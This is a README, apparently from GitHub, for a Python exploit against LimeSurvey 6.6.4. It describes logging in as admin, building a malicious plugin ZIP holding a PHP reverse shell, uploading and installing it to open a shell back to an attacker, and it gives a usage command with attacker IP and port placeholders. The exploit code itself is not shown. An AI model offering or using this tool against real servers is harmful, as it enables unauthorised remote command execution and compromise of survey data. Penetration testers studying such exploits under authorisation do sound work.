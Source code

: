 # LimeSurvey 6.6.4 Reverse Shell Plugin Exploit

This Python script exploits a file upload vulnerability in **LimeSurvey 6.6.4** by uploading a malicious plugin containing a PHP reverse shell payload. It automates the following steps:

- Logs into the LimeSurvey admin dashboard using provided credentials and handles CSRF tokens.
- Generates a malicious plugin ZIP archive with a reverse shell PHP script configured with your IP and port.
- Uploads the plugin via the vulnerable plugin manager interface.
- Confirms and installs the uploaded plugin to trigger the reverse shell.

Once executed successfully, the script opens a reverse shell from the target LimeSurvey server back to the attacker’s machine, enabling remote command execution.

---

## Features

- Automated login with CSRF token extraction.
- Customizable reverse shell PHP payload.
- Plugin upload and installation automation.
- Simple command-line interface (CLI) usage.

---

## Usage

```bash
python3 lime_reverse_shell_exploit.py \
  --target http://target-limesurvey \
  --username admin \
  --password pass123 \
  --ip attacker_ip \
  --port attacker_port

